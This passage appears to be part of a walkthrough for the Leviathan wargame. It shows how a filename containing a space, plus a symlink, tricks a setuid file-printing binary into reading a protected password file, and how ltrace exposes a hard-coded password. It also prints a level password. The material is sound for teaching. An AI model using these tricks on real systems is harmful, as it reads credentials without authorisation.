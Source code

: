 However we do not have access to `/etc/leviathan_pass/leviathan3`, 
to any symbolic links given that they resolve to the file anyway, 
neither we can create a file called `test /etc/leviathan_pass/leviathan3`.

However we can create one called `test link`, and then run `printfile "test link"`.
This won't be very useful unless either `test` or `link` are symbolic links to `/etc/leviathan_pass/leviathan3`.
To do so, we run

```
touch "test link"
ln -s /etc/leviathan_pass/leviathan3 link
~/printfile "test link"
```

Which will create the dummy file for the `printfile` to take and check access over, 
create a symbolic link to `/etc/leviathan_pass/leviathan3` named `link` 
and finally run `~/printfile "test link"` yielding:

```
/bin/cat: test: No such file or directory
Ahdiemoo1j
```

And there is our password!

# Level 3

Going into Level 3, 
we have yet another password challenge, 
running the `level3` executable shows us a prompt for a password.

```
leviathan3@leviathan:~$ ./level3 
Enter the password> password
bzzzzzzzzap. WRONG
```

We grab our old friend `ltrace` and run `ltrace ./level3`, the following ensues.

```
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                        = -1
printf("Enter the password> ")                                                    = 20
fgets(Enter the password> password
"password\n", 256, 0xf7fc55a0)                                              = 0xffffd590
strcmp("password\n", "snlprintf\n")                                               = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                        = 19
+++ exited (status 0) +++
```

While in the second line we have a clearly false comparison, 
after `fgets` we see our input being compared to `snlprintf`,
so we try again with `snlprintf` as input.
